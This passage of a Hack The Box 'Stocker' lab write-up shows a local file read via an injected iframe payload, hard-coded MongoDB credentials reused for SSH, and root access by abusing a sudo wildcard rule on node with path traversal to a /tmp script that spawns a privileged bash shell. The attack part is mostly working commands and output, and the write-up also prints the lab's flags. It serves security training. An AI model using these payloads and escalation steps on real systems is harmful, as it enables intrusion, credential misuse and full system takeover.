 After exploring around, I stumbled on the `index.js` source code.

```HTML
<iframe src=file:///var/www/dev/index.js height=1000px width=1000px></iframe>
```

There I found the MongoDB credentials:

![](blog/htb_m/Stocker/Pasted image 20230205174319.png)

```JS
// TODO: Configure loading from dotenv for production
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";
```

And finally, due to not loading credentials from dotenv and password reuse, I  got SSH access to user `angoose`.

```bash
$ ssh angoose@stocker.htb                    
The authenticity of host 'stocker.htb (10.10.11.196)' can't be established.
ED25519 key fingerprint is SHA256:jqYjSiavS/WjCMCrDzjEo7AcpCFS07X3OLtbGHo/7LQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'stocker.htb' (ED25519) to the list of known hosts.
angoose@stocker.htb's password: 
Last login: Sun Feb  5 16:49:24 2023 from 10.10.14.52
-bash-5.0$ id
uid=1001(angoose) gid=1001(angoose) groups=1001(angoose)
-bash-5.0$ cat user.txt 
cf901f8fe560505899ed37d6ba998c19
```

## Root Privilage Escalation

Running `sudo -l` and entering the password shows that `/usr/bin/node /usr/local/scripts/*.js` can be executed.

```bash
$ sudo -l
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

Setting SUDO permissions with wildcard could lead to potential vulnerabilities, like in this case.

For the sace of not interfiering with other palyers, I made a folder in `/tmp` and made a JS file in which I pasted a line of JS which spawns a shell.

```bash
$ pwd
/tmp/.niik
$ cat root.js 
require("child_process").spawn("/bin/bash", ["-p"], {stdio: [0, 1, 2]})
$ sudo /usr/bin/node /usr/local/scripts/../../../tmp/.niik/root.js 
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt 
37867fe058775c692ccf699e2499edb3
```
